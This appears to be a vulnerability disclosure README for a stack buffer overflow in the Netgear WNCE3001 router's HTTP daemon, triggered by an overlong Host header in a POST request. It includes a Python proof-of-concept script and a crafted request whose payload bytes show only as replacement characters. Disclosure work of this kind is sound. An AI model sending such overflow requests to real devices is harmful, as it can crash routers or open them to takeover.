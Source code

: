 # Overview
Details of the vulnerability found in the netgear router wnce3001.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| wnce3001    |  1.0.0.50    | https://www.downloads.netgear.com/files/GDC/WNCE3001/WNCE3001-V1.0.0.50_1.0.35.zip   |




# Vulnerability details
## 1. Vulnerability trigger Location
A stack-based buffer overflow vulnerability exists in the function http_d at offset 00405528, where the `sscanf` function is called without proper bounds checking. A specially crafted POST request can trigger the overflow.
![Vulnerability Trigger Location](./assets/1.png)

## 2. Vulnerability  Analysis
- This vulnerability occurs when the program parses the Host field in a user's POST request. The `sscanf` function copies the contents of the Host field into the buffer `v158`, which can hold at most 128 bytes. 
![second](./assets/2.png)
![3](./assets/3.png)
- So, if the length of the Host field exceeds 128 bytes, a stack buffer overflow will occur.




# POC
## python script
```python
import socket

host = "172.17.0.173"
port = 80
file = "../crashes/payload.txt"
f = open(file, "rb")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

request = f.read()

s.send(request)

response = s.recv(4096)

print(response.decode())

s.close()
```
## Payload.txt

**Note the use of CRLF (Carriage Return and Line Feed) for line breaks.**
```
POST  HTTP/1.1
Host:���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������� 

Content=xxx
```

# Vulnerability Verification Screenshot
##  wnce3001
![4.png](./assets/4.png)

# Discoverer
LWJ-huster
